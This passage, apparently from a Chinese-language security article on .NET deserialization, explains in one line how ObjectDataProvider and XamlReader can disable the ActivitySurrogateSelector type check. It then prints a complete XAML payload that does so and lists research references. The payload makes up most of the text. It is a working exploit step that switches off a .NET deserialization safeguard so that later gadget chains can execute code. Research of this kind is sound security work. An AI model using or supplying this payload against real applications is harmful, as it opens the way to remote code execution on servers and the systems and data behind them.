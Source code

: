 结合`ObjectDataProvider`和`XamlReader`来执行`System.Configuration.ConfigurationManager.AppSettings.Set("microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck", "true");`的操作

payload如下：

```plain
<ResourceDictionary
    xmlns="https://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="https://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:s="clr-namespace:System;assembly=mscorlib"
    xmlns:c="clr-namespace:System.Configuration;assembly=System.Configuration"
    xmlns:r="clr-namespace:System.Reflection;assembly=mscorlib">
    <ObjectDataProvider x:Key="type" ObjectType="{x:Type s:Type}" MethodName="GetType">
        <ObjectDataProvider.MethodParameters>
            <s:String>System.Workflow.ComponentModel.AppSettings, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="field" ObjectInstance="{StaticResource type}" MethodName="GetField">
        <ObjectDataProvider.MethodParameters>
            <s:String>disableActivitySurrogateSelectorTypeCheck</s:String>
            <r:BindingFlags>40</r:BindingFlags>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="set" ObjectInstance="{StaticResource field}" MethodName="SetValue">
        <ObjectDataProvider.MethodParameters>
            <s:Object/>
            <s:Boolean>true</s:Boolean>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="setMethod" ObjectInstance="{x:Static c:ConfigurationManager.AppSettings}" MethodName ="Set">
        <ObjectDataProvider.MethodParameters>
            <s:String>microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck</s:String>
            <s:String>true</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

### 参考文章

[https://paper.seebug.org/1418/#typeconfusedelegate](https://paper.seebug.org/1418/#typeconfusedelegate)

[https://github.com/Y4er/dotnet-deserialization/blob/main/SoapFormatter.md](https://github.com/Y4er/dotnet-deserialization/blob/main/SoapFormatter.md)

[https://googleprojectzero.blogspot.com/2017/04/exploiting-net-managed-dcom.html](https://googleprojectzero.blogspot.com/2017/04/exploiting-net-managed-dcom.html)

[https://www.netspi.com/blog/technical/adversary-simulation/re-animating-activitysurrogateselector/](https://www.netspi.com/blog/technical/adversary-simulation/re-animating-activitysurrogateselector/)
